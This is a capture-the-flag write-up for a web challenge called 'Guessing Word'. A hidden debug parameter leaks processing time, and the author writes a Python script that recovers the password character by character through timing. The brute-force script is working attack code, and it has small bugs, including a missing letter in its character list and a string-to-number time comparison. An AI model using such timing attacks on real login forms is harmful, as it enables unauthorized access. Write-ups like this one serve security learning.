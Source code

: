 ```yaml
---
title: "[Writeup] ROP: 05 - Guessing Word"
date: 2020-03-17T22:00:00+07:00
categories: [writeup]
tags: [rop, web, ctf, writeup]
---
```


**DISCLAIMER: game.rop.sh was discontinued and is no longer available.**

**Challenge Name:** Guessing Word  
**Type:** Web  
**Score:** 200 pts  
**Link:** [https://game.rop.sh](https://game.rop.sh/task)  

{{< img src="/images/rop/05/rop_05_challenge.png" alt="Challenge Description">}}*Guessing Word challenge description*

<!--more-->

As usual, the challenge provides us with a link to the website. On the website, there's a text box and a button to submit the password that we need to "GUESS".

{{< img src="/images/rop/05/rop_05_webpage.png" alt="Challenge Webpage">}}*Webpage of the challenge*

Looking at the page source, we would see this:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="shortcut icon" href="../../docs-assets/ico/favicon.png">

    <title>Guessing Game</title>

    <!-- Bootstrap core CSS -->
    <link href="../../css/bootstrap.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="signin.css" rel="stylesheet">

    <!-- Just for debugging purposes. Don't actually copy this line! -->
    <!--[if lt IE 9]><script src="../../docs-assets/js/ie8-responsive-file-warning.js"></script><![endif]-->

    <!-- HTML5 shim and Respond.js IE8 support of HTML5 elements and media queries -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script>
      <script src="https://oss.maxcdn.com/libs/respond.js/1.3.0/respond.min.js"></script>
    <![endif]-->
  </head>

  <body>

    <div class="container">
      <form class="form-signin" role="form" action="index.php" method="POST">
        <h3 class="form-signin-heading">Can you guess my password?</h3>
        <input type="password" class="form-control" placeholder="Password" name="password" required><br>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
    </div> <!-- /container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
  </body>
</html>
```

We can see that the form would send a POST request with the password in the textbox to **index.php**.
So let's try inputting *test* into the form and press *Enter*.

{{< img src="/images/rop/05/rop_05_wrong.png" alt="Result">}}*Result*

Apparently, we guessed wrong. Let's see the source.

```html
Wrong Password<br>
```

... Really? That's it? The whole source is just one line, without any comment as a hint at all.
We need to do something with the input of the form, one of the possibilities would be SQL Injection, but let's look at the source of the first page again, maybe we could find something.

```html
...
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
...
```

Hmmm...? **?debug for DEBUGGING**? Let's try it then, changing the target of the POST request to **index.php?debug** and submit again.

{{< img src="/images/rop/05/rop_05_wrong.png" alt="Debug Result">}}*Result with ?debug*

The page looks the same; however, something interesting appears in the source.

```
Wrong Password<br><br><!-- Process Time: 0 -->
```

A comment telling us the process time! After several tries, we have found out that different inputs yield different processing times, and we can deduct the correct password from the processing time.

The code would probably look somewhat like this:

```py
correct_pass = "P@ssw0rd"
input = [User input]

wrong = False

# Different input sizes yield equal processing time, so it is probably made to be easy to crack.
for i in range (0, min(len(correct_pass), len(input))):
  if correct_pass[i] != input[i]:
    wrong = True
    break

if len(correct_pass) != len(input):
  wrong = True

if !wrong:
  print("Correct Password")
else:
  print("Wrong Password")
```

With this code, the program would run longer if more characters of the input matches the correct password. Therefore, we can bruteforce it character by character and pick the one with the longest processing time.

I wrote a simple Python script to send POST requests and bruteforce the password.

```py
import requests
import re

url = "https://game.rop.sh/chall/5/index.php?debug"
  
password = ""
charlist = "0123456789abcdefghijklmnopqustuvwxyz!@#$%^&*()_-+="

for i in range(30):
    maxtime = 0
    tempchar = ''
    end = False
    for c in charlist:
        temppass = password + c
        data = {'password':temppass}
        r = requests.post(url = url, data = {"password":temppass})
        
        wrong = re.search('Wrong', r.text)
        if not wrong:
            tempchar = c
            end = True
            break

        find = re.search('Process Time: ([\d\.]+)', r.text)
        if find:
            time = find.group(1)
            if time > maxtime:
                maxtime = time
                tempchar = c
    password = password + tempchar
    print(password)
    if end:
        break

print("Key = " + password)
```

The script would rotate the characters from the list to send as an input, after that, it would save the one with the longest process time and pick the further characters.

After waiting for a while, we got our password.

{{< img src="/images/rop/05/rop_05_output.png" alt="Script Output">}}*Script Output*

Inputting this key manually on the website yields this result:

{{< img src="/images/rop/05/rop_05_key.png" alt="Result">}}*Result*

Success!